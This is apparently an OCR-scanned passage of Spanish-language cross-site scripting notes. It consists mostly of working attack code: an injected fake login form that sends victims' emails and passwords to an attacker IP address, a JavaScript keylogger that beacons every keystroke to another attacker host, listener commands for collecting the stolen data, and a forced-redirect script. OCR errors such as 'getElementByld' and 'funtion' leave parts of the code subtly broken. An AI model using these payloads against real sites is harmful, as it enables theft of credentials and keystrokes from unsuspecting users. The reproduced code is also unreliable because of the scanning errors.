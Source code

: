 ```html
		'</form>';
		
	document.getElementByld("formContainer”).innerHTML = form;
	
	function submitForm() {
		email = document.getElementByld("email").value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.68.108/?email=" + email + "&password="+ password);
	}
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


## Keylogger JavaScript

```javascript
// Podriamos ver las pulsaciones de teclado en tiempo real dentro de la web

<script>
   var k = "";    
   document.onkeypress = funtion(e){
        e = e || window.event;                 // Opcional para que en cualquier navegador funcione el Keylogger
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.68.111/" + k;
    };
</script>

	// K = Variable que almacena las pulsaciones  
```

```bash
❯ python3 -m http.server 80  | grep -oP "GET /\k[^.*\s]+"      # Nos montamos un servidor http 80 para recibir las peticiones y que las filtre 
```

## Redirección al usuario 

```javascript
// Podemos crear un Script para redirigir al usuario a otra pagina web 

<script>
	window.location.href = "https://hack4u.io";
</script>
```

## Cookie Hijacking
